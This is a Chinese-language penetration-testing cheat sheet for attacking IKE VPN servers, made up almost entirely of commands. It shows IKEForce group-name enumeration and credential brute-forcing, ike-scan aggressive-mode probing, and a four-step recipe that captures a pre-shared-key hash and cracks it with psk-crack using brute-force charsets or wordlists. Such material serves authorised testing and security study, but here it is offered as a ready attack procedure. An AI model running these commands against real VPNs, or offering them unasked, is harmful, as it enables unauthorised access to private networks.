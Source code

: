使用IKEForce对IKE VPN 进行枚举：

```
./ikeforce.py TARGET-IP –e –w wordlists/groupnames.dic
```

使用 IKEForce 爆破 IKE VPN:

```
./ikeforce.py TARGET-IP -b -i groupid -u dan -k psk123 -w passwords.txt -s 1
```

```
ike-scan
ike-scan TARGET-IP
ike-scan -A TARGET-IP
ike-scan -A TARGET-IP --id=myid -P TARGET-IP-key
```

#### IKE 激进模式 PSK 破解

1. 验证VPN服务器
2. 使用 IKEForce 枚举来获得组ID
3. 使用 ike-scan 从IKE 终端抓取 PSK 哈希 
4. 使用 psk-crack 破解哈希

##### Step 1: 验证IKE服务器

```
./udp-protocol-scanner.pl -p ike SUBNET/24
```

##### Step 2:使用IKEForce枚举组名

```
./ikeforce.py TARGET-IP –e –w wordlists/groupnames.dic
```

##### Step 3: 使用ike-scan抓取PSK哈希

```
ike-scan –M –A –n example_group -P hash-file.txt TARGET-IP
```

##### Step 4: 使用psk-crack 破解PSK 哈希

```
psk-crack hash-file.txt
```

高级psk-crack 选项:

```
pskcrack
psk-crack -b 5 TARGET-IPkey
psk-crack -b 5 --charset="01233456789ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz" 192-168-207-134key
psk-crack -d /path/to/dictionary-file TARGET-IP-key
```
